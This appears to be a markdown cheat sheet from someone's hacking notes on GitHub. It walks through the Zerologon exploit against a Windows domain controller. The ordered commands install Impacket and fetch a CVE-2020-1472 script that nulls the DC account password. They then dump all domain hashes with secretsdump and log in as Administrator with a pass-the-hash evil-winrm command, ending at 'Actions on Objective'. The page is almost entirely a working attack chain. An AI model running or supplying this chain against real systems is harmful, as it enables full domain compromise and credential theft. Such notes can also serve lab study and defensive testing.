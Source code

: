 # How to perform the Zero Logon Exploit  

## 1. Perform these commands (in order) on attack machine:
```
python3 -m pip install virtualenv
```
```
python3 -m virtualenv impacketEnv
```
```
source impacketEnv/bin/activate
```
pip install git+https://github.com/SecureAuthCorp/impacket  

## 2. Put zeroLogon-NullPass.py on attack machine:
```
wget https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/master/zerologon_tester.py
```
Note: if the link above ever breaks, you can find the same code in the same directory that this code is found (https://github.com/KyserClark/Hacking-Notes/blob/main/Exploits/Zero%20Logon/zeroLogon-NullPass.py)   

## 3. Perform this command:
```
python3 zeroLogon-NullPass.py [DC NetBIOS Name] [MACHINE-IP]
```
Note: You can use nmap to find the NetBIOS name of the domain controller:
```
nmap -sC -sV [TARGET-IP]
```  

## 4. Dump hashes:
```
secretsdump.py -just-dc -no-pass [DC NetBIOS Name]\$@[MACHINE-IP]
```  

5. Login with account hash:
```
evil-winrm -i [TARGET-IP] -u Administrator -H [NTLM-HASH]
```  

6. Actions on Objective

